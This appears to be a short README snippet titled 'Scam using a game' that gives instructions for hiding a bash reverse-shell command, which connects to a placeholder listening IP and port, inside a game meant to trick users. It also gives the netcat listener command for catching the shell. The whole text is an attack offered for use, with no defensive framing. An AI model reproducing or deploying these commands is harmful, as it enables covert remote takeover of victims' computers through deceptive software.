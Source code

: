#Scam using a game

The command to insert in your scam game is as commented below: <br/>
/bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1
The command to use for entry is:
nc -lnvp PORT -s YOUR_IP_ADDRESS
Note: The ip address in your file is the same as the ip you'll be listening using.
